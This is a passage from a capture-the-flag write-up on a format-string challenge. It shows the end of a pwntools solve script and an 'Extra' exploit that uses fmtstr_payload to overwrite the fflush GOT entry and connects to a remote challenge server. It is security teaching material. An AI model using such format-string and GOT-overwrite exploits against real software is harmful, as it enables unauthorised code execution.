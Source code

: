 ```python
    # discard all the garbage
    r.recvuntil(b'CLASSIFIED DATA: ')

    flag = r.recvuntil(b'}').decode("ascii")

    print()
    print(flag)
    print()


if __name__ == "__main__":
    main()
```


### Extra
If you want to show some disrespect to the challenge author, skip the `security_code` entirely and target the Global Offset Table. Since RELRO is partial, overwriting the got entry is doable.
```python
#!/usr/bin/env python3

from pwn import *
import time

elf = ELF("./format1_patched")

context.binary = elf
context.terminal = ["alacritty", "-e", "sh", "-c"]
dbginit = """
b main
"""


def conn():
    if args.REMOTE:
        r = remote("34.130.180.230", 5675)
    elif args.GDB:
        r = gdb.debug([elf.path], gdbscript=dbginit)
    else:
        r = process([elf.path])
    return r


def main():
    r = conn()

    dest = elf.got["fflush"]
    val  = 0x4012e5 

    write = {
            dest : val
            }
    
    offset = 14

    payload = fmtstr_payload(offset, write, write_size="byte")

    r.sendline(payload)

    log.progress("Sending...")
    sleep(1)

    r.recvuntil(b'CLASSIFIED DATA: ')
```